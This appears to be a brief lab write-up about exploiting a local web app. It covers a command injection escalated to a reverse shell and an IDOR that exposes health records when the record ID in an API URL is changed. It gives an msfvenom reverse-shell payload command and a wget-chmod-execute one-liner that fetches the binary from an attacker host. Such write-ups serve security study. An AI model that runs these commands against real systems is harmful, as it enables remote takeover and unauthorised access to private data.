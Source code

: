 ![image](https://github.com/user-attachments/assets/c7470cde-8c47-48a6-90cb-367623fb33a0)

Exploiting the Command injection VUlnerailites


This was done by using the command ls
![image](https://github.com/user-attachments/assets/b19d6cd8-18c6-4d95-960f-0ae87670d4b4)


Then which sh
![image](https://github.com/user-attachments/assets/0d19245f-df6f-490f-befc-daab2194951f)


Getting a reverse shell
bash, nc 
This was finally done by using a static linux binary created using msfconsole and wget 

`msfvenom -p linux/x64/shell_reverse_tcp  LHOST=172.22.0.1  LPORT=2294 -f elf -o shell.elf`

this was what was used eventually
wget http://172.22.0.1/shell.elf -O /tmp/shell; chmod +x /tmp/shell; /tmp/shell

![image](https://github.com/user-attachments/assets/931e07d6-0e0a-41eb-9029-d5f7333ecffb)
  


IDOR
This works by just changing the value after "record" in http://127.0.0.1:3001/api/health/record/2
![image](https://github.com/user-attachments/assets/57a8849d-33de-465d-909e-3c4cd4b224b5)


or  by changgint the ministry
![image](https://github.com/user-attachments/assets/11de61f1-cb93-4fdc-aaae-10d9b8182bcf)

